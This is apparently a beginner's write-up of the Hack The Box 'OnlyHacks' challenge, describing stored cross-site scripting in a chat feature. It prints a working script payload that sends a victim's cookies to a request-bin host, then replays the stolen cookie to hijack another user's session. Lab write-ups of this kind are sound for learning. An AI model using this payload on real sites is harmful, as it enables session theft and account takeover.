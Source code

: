 In this i'm going to be attempting the only hacks challenge which was posted for valentines day on hack the box.
It's diffculty is very easy.
Our task is to find and submit a flag.

We begin by getting our host address.

![alt text](images/onlyhacks_4.png)

Now on entering this into a browser we are taken to this site.

![alt text](images/onlyhacks_1.png)

Entering values and trying to log in didn't take me anywhere so i'm going to try to signup.
![alt text](images/onlyhacks_2.png)

But when i enter this in it says user already exists.

![alt text](images/onlyhacks_3.png)
I tried repeating the sign in with a profile picture( i hadn't used one ealier), and now the sign in works.
We are now taken to this site...
![alt text](images/onlyhacks_5.png)

On going through the site i see a chat window for chatting with a user called Renata.
![alt text](images/onlyhacks_6.png)

I will try to type some messages.

![alt text](images/onlyhacks_7.png)

I tried tying some random words( wierd i know)..but as expected it didn't lead to anything. The responses are all sent in a same cycle.
Well...I was wrong about the responses being generated in a repeated cycle. There is some AI being used to generate the responses.

THe chat accepts html so if i try to send something like...

![alt text](images/onlyhacks_8.png)

That was  < u >hi< u >

Now we will create a request bin and get the request by sending the address on the request bin site throught the chatbox we have on the only hacks site. 
We use < script > to embed our "script" which is executed when a user visits the page embedded.
< script >document.location="http://requestbin.whapi.cloud/1688xb21?c" + document.cookie< /script >
here we use the document.location and specify where to be redirected when user clicks...then on clicking the cookies of that user are taken and added to the end of that url(due to ?c and the +document.cookie).
On visiting the site RequestBin records a log of that. That log will have the site url therefore the end cookie data too.
![alt text](images/onlyhacks_10.png)
As we can see a log is made... on close inspection towards the end of the url lies the cookie we need.
![alt text](images/onlyhacks_11.png)

This cookie can be replac the cookie in our only hacks tab.
Here is the value we have to replace...
![alt text](images/onlyhacks_12.png)

On replacing and reloading the page we get to see this...
![alt text](images/onlyhacks_13.png)
We are now logged in as Renata. We notice another person in the chat.
On opening that we get the flag needed.
![alt text](images/onlyhacks_14.png)